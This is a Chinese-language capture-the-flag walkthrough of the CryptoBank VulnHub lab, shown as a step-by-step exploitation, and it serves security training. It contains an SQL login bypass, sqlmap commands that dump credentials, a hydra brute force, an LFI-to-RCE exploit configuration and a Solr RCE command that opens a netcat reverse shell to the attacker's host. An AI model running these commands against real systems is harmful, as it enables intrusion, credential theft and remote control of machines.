 
# CryptoBank靶机渗透测试


                                阅读量   
                                **351337**
                            
                        |
                        
                                                            评论
                                <b>
                                    <a target="_blank">2</a>
                                </b>
                                                                                    



[![](./img/203923/t01e49ae4f715a728e3.png)](./img/203923/t01e49ae4f715a728e3.png)



## 靶机下载地址及配置

[cryptobank](https://download.vulnhub.com/cryptobank/CryptoBank.ova)靶机下载地址<br>
cryptobank靶机IP: 192.168.56.132(cryptobank.local)<br>
kali攻击机IP： 192.168.56.116



## 知识点及工具

nmap<br>
sqlmap<br>
dirb<br>
sql注入<br>
代理<br>
apache solr RCE



## 实战渗透

首先第一步对目标靶机IP进行网络端口服务扫描

`nmap -A -p- 192.168.56.132`

[![](./img/203923/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t013cfd77fe46c7a58c.png)<br>
扫描结果显示目标端口开放了22（ssh）,80（http）端口，访问80web服务<br>[http://192.168.56.132](http://192.168.56.132)<br>[![](./img/203923/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t015f80330a81566272.png)<br>
点击访问其他得链接发现解析不了需添加hosts，界面暂无发现好东西，对目录进行了扫描，可以看见有development(http登录),info.php(phpinfo信息)，trade(登录界面)<br>[![](./img/203923/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t0138e947e59b937024.png)<br>
接下来就转向了trade登录界面，使用常见用户名admin,root,test尝试登录看看是否为弱口令,登录出错提示信息”Login Failed! Wrong username or password”<br>[![](./img/203923/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t01e8071e0cdc3e9f0e.png)<br>
突然有想法尝试万能密码了 binggo 登录成功 ‘or’=’or’<br>[![](./img/203923/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t011ab7ca9146c36f93.png)<br>[![](./img/203923/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t01f0511fafd8aaf84a.png)<br>
登录成功后我也没发现什么其他的，还是sql注入。用sqlmap跑一跑用户名跟密码吧，后面肯定是要用到账号的。<br>
先抓取登录的包

```
POST /trade/login_auth.php HTTP/1.1
Host: cryptobank.local
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://cryptobank.local/trade/index.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 33
Connection: close
Cookie: PHPSESSID=po43jcjcj6f8edvsp8qrjvltdj
Upgrade-Insecure-Requests: 1

user=admin&amp;pass=admin&amp;login=Login

```

接下来sqlmap直接开干

`sqlmap -u "http://cryptobank.local/trade/login_auth.php" --data="login=Login&amp;pass=admin&amp;user=admin" -p pass --random-agent --dbs`

[![](./img/203923/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t012925f2c5bc95d925.png)<br>
可以看到靶机存在5张表，数据库类型为mysql<br>
由于靶机标题为cryptobank所有要用到的表肯定也是cryptobank表，爆爆爆

`sqlmap -u "http://cryptobank.local/trade/login_auth.php" --data="login=Login&amp;pass=admin&amp;user=admin" -p pass --random-agent --dbms=mysql -D cryptobank --tables`

[![](./img/203923/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t015d2868a7740fb314.png)

此用户账号在acccounts里,列出列名

`sqlmap -u "http://cryptobank.local/trade/login_auth.php" --data="login=Login&amp;pass=admin&amp;user=admin" -p pass --random-agent --dbms=mysql -D cryptobank -T accounts --dump`

[![](./img/203923/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t01270c62943202a7d5.png)<br>
得到了这么多账号密码，随便拿一个可以直接登录<br>
拿着这些密码，ssh爆破一番没有结果，接下来转向了develpoment目录<br>
访问登录提示需要开发人员登录，对这个develpoment目录用这些账号密码也尝试了一次，发现开发人员的账户不在这个里面，须再找<br>[![](./img/203923/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t011af2ac3fbc2776c5.png)

在首页看见了一个团队各员工的职位，看到了development人员<br>[![](./img/203923/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t01f1556d2aae9c768e.png)<br>
点击邮件按钮，发现一个疑似用户名，猜测julius.b/juliusbook为用户名<br>[![](./img/203923/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t01e2c3e03f3fcaeb3e.png)<br>
然后添加到用户字典中，再次进行爆破

`hydra -L bankuser.txt -P bankpassword.txt -f cryptobank.local http-get /develpoment`

[![](./img/203923/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t01b1c964d195ab740b.png)<br>
账号密码登录之后就看到一句话only for develpoment,没其他的了吗，我还不信，好不容易找到账号密码登录<br>[![](./img/203923/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t01f1fd8c80b12272f8.png)<br>
再次对目录扫描一遍，这个扫描需要登录之后有身份验证才能扫描出来，再次进行抓包拿到验证身份，使用dirbuster扫描，添加headers<br>[![](./img/203923/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t0192b227cec3121298.png)<br>
扫描到了一个tools目录<br>[![](./img/203923/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t016592854a913c76b9.png)<br>
访问之后，有三个功能(代码执行，系统文件，文件上传)<br>[![](./img/203923/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t015b2e89298db27657.png)<br>
第一个看见文件上传了 心理有点小激动，点击打开了，我直接上传php，发现被防火墙拦截了，只能上传png文件，尝试绕过了一些方法，但是没有绕过去，TCL<br>[![](./img/203923/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t0106a4d821f8c6b7a9.png)<br>
命令执行那个有个登录，就没搞了，点开系统文件的，发现地址栏有file=谁谁谁，想到LFI本地文件包含<br>[http://cryptobank.local/development/tools/FileInclusion/pages/fetchmeafile.php?file=file.txt](http://cryptobank.local/development/tools/FileInclusion/pages/fetchmeafile.php?file=file.txt)<br>[![](./img/203923/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t01e2d4a95c24f369e5.png)<br>
/etc/password,/etc/hosts等都被墙了，但是他能读到具体的某些文件/vr/www/cryptobank/info.php<br>[![](./img/203923/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t01c7ae6dfc9b7cd115.png)<br>
管他墙不墙的了，正好这个phpinfo可以想起LFI-phpinfo利用，[https://dl.packetstormsecurity.net/papers/general/LFI_With_PHPInfo_Assitance.pdf](https://dl.packetstormsecurity.net/papers/general/LFI_With_PHPInfo_Assitance.pdf)

[github搜索找到了一个RCE](https://github.com/M4LV0/LFI-phpinfo-RCE/blob/master/exploit.py)<br>
修改一下配置参数,这里记得加上身份认证，我当时没加弄得我作死了很久

```
$ip = '192.168.56.116';
REQ1="""POST /info.php?a="""+padding+""" HTTP/1.1r
LFIREQ="""GET /development/tools/FileInclusion/pages/fetchmeafile.php?file=%s HTTP/1.1r
添加 Authorization: Basic anVsaXVzLmI6d0pXbTRDZ1YyNg==
```

[![](./img/203923/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t017d8a79ce86a94418.png)<br>
然后直接利用，可以看到成功反弹shell<br>[![](./img/203923/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t011622984ce5e70db4.png)<br>
读取cryptobank用户下的flag.txt<br>[![](./img/203923/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t0125ba0c64891a2210.png)<br>
接下来就是提权为某用户身份了，上传一个LinEnum.sh脚本让他自己跑一下，在开放端口处发现一个地址开放了一个8983的端口，猜测应该是solr<br>[![](./img/203923/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t0164f83f5f6c839032.png)<br>
因为不是本地的，看着像是docker的，所以现在给代理出来，这里代理我用了这个[revsocks](https://github.com/kost/revsocks/releases)工具,可以根据自己系统下载对应版本<br>
在kali开启监听

`./revsocks_linux_amd64 -listen :8088 -socks 0.0.0.0:1080 -pass cryptobank`

[![](./img/203923/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t019bc9eeaa56670a51.png)<br>
在靶机执行

`./revsocks_linux_amd64 -connect 192.168.56.116:8088 -pass cryptobank`

[![](./img/203923/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t01a05dd47244486986.png)

代理已经开启，接下来就要在浏览器或者proxychain设置一下才能用哦<br>
火狐浏览器代理配置<br>[![](./img/203923/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t016cc3d44df7034f96.png)<br>
proxychain配置<br>[![](./img/203923/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t018bd372f36195fb17.png)<br>
浏览器访问地址，没想到还真是solr [http://172.17.0.1:8983/](http://172.17.0.1:8983/)<br>[![](./img/203923/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t0160af48249de0da63.png)<br>
二话没说，去年有个[模板远程代码执行](https://www.exploit-db.com/exploits/47572)，听说win的有个0day哟，嘿嘿

`proxychains python solr_rce.py 172.17.0.1 8983 "nc -e /bin/bash 192.168.56.116 1234"`

[![](./img/203923/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t01e83e55d2e3c4da59.png)<br>
已成功利用，输入id查看身份，可sudo哟，还真的免密登录。<br>[![](./img/203923/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t01fef7d46503c681ce.png)<br>
最后靶机就完成了，哦耶

